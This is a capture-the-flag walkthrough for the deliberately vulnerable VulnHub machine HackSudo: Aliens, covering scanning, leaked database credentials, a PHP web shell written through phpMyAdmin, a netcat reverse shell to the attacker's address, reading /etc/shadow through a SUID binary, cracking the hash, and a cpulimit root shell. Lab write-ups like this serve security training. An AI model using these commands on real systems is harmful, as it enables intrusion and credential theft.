# HackSudo: Aliens Writeup, Walkthrough
https://www.vulnhub.com/entry/hacksudo-aliens,676/

## First, I have to get the IP address of the box

-       sudo netdiscover -t eth1

## Enumeration 
- I run a nmap scan to see what ports are open and what services are running.
    -       nmap -sC -sV -oN nmap.txt 192.168.190.149
    - Open ports
        - 22 SSH - OpenSSH 7.9p1
        - 80 HTTP - Apache httpd 2.4.38
        - 9000 HTTP - Apache httpd 2.4.38
        - 

- The webpage in port 9000 is running phpMyAdmin and the default credentials doesn't work.
    - 
    - I ran a directory scanner but did not find anything that will help me gain access.

- While enumerating the webpage in port 80, I ran a gobuster scan to see hidden directories

    -       gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -u http://192.168.190.149
        - I used -x to look for html, php and txt files
    - 

- In the /backup page, where is a mysql.bak file. Let's download it and see whats inside it. 
    -           wget http://192.168.190.149/backup/mysql.bak
               cat mysql.bak

- The mysql.bak reveals a user and password.
    - vishal:hacksudo
    - 

- Using vishal:hacksudo logs us into phpMyAdmin and it shows the version 5.1.0
    - 

- Googling 'phpmyadmin reverse shell' led me to [this page](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) which shows how to upload a reverse shell. 

- I added a new database with my own php code to execute any command that I want. The end point is to get a reverse shell.

- Click new, and give any name and select collation
    - Then click on the SQL tab and insert the php code. 
    -     SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd3.php"
        - 
        - Then click go to save.

- Since I saved the file to /var/www/html/, I can go to http://192.168.190.149/cmd3.php?cmd="COMMAND HERE" to execute commands.
- To test the exploit visiting http://192.168.190.149/cmd3.php?cmd=whoami return www-data
    - Now I can use nc to send a reverse shell.
    - ```nc -lnvp 4444``` on my machine to start listener.
    -     http://192.168.190.149/cmd3.php?cmd=nc -e /bin/bash 192.168.190.143 4444
    - 
    - aaaaand we have a shell.
    - to upgrade the shell
        -     python -c 'import pty; pty.spawn("/bin/bash")'
    


## Privilege Escalation

- `sudo -l` requires  a password so no luck there.
- kernel 4.19.0-16 does not have an exploit
- Checking for SUID binaries
    -     find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    - /usr/bin/date looks interesting
    - upon checking [gtfobins](https://gtfobins.github.io/gtfobins/date/) it loks like I can abuse date to read any file as root.
    - 

- I decided to read the /etc/shadow file to see the hashed passwords for the users.
    -     /usr/bin/date -f /etc/shadow
- I copy the password of hacksudo user into a text file so I can crack the password with john.
    -     echo '''hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::''' > password.txt
- Then I used john to crack the password
    -     john --wordlist=/usr/share/wordlists/rockyou.txt password.txt
    - 
    - `hacksudo:aliens`
- I terminated the current shell and ssh into the machine with hacksudo's credentials.
    - `ssh hacksudo@192.168.190.149`


## Privilege Escalation ..... again...

- In the home folder of hacksudo, the `.bash_history` shows that `cpulimit` can be used to spawn root shell.
    - 
- I can run the same command which should spawn a root shell.

-     ./cpulimit -l 100 -f -- /bin/sh -p
- 
- Now I can read root.txt


### bada bing bada boom .... We have rooted HackSudo: Alien


